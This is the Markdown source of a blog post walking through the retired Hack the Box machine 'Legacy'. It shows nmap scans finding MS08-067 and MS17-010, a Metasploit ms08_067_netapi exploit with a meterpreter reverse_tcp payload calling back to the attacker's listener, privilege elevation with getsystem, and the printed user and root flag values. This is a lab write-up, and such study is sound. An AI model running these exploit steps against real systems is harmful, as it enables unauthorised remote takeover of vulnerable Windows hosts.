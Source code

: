 ```yaml
---
title: Legacy, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-01-11-legacy-hack-the-box-walkthrough/legacy.png
layout: post
description: ""
date:   2021-01-10 20:01:21 -0400
last-updated: 2021-01-10 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.
card: card-2
---
```


Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.

## Getting Started   
The first thing i did was conduct a basic <kbd>nmap</kbd> scan to search for the top 200 open ports on the target.  

```bash
──(kali㉿kali)-[~/Documents/htb/legacy]
└─$ nmap --top-ports 200 -Pn 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 14:50 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).
Not shown: 197 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.57 seconds
                                                                                                                                                          
```  

The scan shows there are at least 2 open ports with services such as netbios and microsoft-ds running. Next, to get a better understanding of the services and version running, and to scan for basic vulnerabilities, I used the <kbd>nmapAutomator</kbd> script.  The below output only shows the most relevant information.  

```bash
---------------------Starting Nmap Vulns Scan---------------------
                                                                                                          
Running CVE scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds


Running Vuln scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.021s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.12 seconds
```  

The scan shows the target is likely vulnerable to CVE-2008-4250, a serious vulnerability also referred to by its [microsoft bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) identifier, Microsoft Windows Server 2000/2003 - Code Execution (MS08-067). There is a public exploit for this vulnerability on metasploit (exploit/windows/smb/ms08_067_netapi), so next i started up the <kbd>msfconsole</kbd> and configured the necessary options.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > 
```  

Executing the exploit started a reverse meterpreter session on the target. Using the <kbd>getsystem</kbd> meterpreter command, I upgraded my privilege to SYSTEM. At this point I can start looking for the user and root flags.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1028) at 2021-01-11 10:22:35 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```  

I used the <kbd>search</kbd> meterpreter command and found both flags. 

```bash
meterpreter > search -f *user.txt*
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644fmeterpreter > 
```  
```bash
meterpreter > search -f *root.txt*
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713meterpreter > 
```  
## Conclusion  
Overall this was an easy CTF machine that was vulnerable to a very popular windows exploit.  

